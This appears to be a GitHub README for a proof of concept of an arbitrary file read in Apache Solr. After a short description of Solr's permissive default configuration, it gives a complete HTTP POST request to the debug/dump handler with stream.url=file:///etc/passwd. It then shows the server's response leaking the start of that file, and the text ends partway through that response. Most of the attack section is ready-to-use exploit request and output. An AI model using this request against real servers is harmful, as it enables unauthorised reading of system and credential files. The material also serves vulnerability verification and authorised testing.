 <b>Apache Solr Arbitrary File Read</b>
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
![Hit Counter](https://shields-io-visitor-counter.herokuapp.com/badge?page=murataydemir.Apache-Solr-Arbitrary-File-Read&style=plastic&color=critical)
![Platform Badge](https://img.shields.io/badge/Platform-Apache%20Solr-critical?logo=apachesolr&style=plastic)

Apache Solr (stands for Searching On Lucene with Replication) is a free, open-source search engine based on the Apache Lucene library. Written in Java. Apache Solr has RESTful XML/HTTP and JSON APIs and client libraries for many programming languages such as Java, Phyton, Ruby, C#, PHP, and many more being used to build search-based and big data analytics applications for websites, databases, files, etc.

Here is some part of the description on the official page of Apache Solr: `A default/example installation of Solr allows any client with access to it to add, update, and delete documents (and of course search/read too), including access to the Solr configuration and schema files and the administrative user interface.`

This means; by default, an attacker can construct a malicious HTTP Request to read any file (within the permissions) on the Apache Solr server.

To verify vulnerability, you can use the following request

```
POST /solr/ckan/debug/dump?param=ContentStreams HTTP/1.1
Host: vulnerablehost:8983
Content-Length: 29
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Connection: close

stream.url=file:///etc/passwd
```

```xml
HTTP/1.1 200 OK
Content-Type: application/xml; charset=UTF-8
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
<response>
    <lst name="responseHeader">
        <int name="status">0</int>
        <int name="QTime">0</int>
        <str name="handler">org.apache.solr.handler.DumpRequestHandler</str>
        <lst name="params">
            <str name="param">ContentStreams</str>
            <str name="stream.url">file:///etc/passwd</str>
        </lst>
    </lst>
    <lst name="params">
        <str name="stream.url">file:///etc/passwd</str>
        <str name="echoHandler">true</str>
        <str name="param">ContentStreams</str>
        <str name="echoParams">explicit</str>
    </lst>
    <arr name="streams">
        <lst>
            <null name="name" />
            <str name="sourceInfo">url</str>
            <null name="size" />
            <null name="contentType" />
            <str name="stream">root:x:0:0:root:/root:/bin/bash
```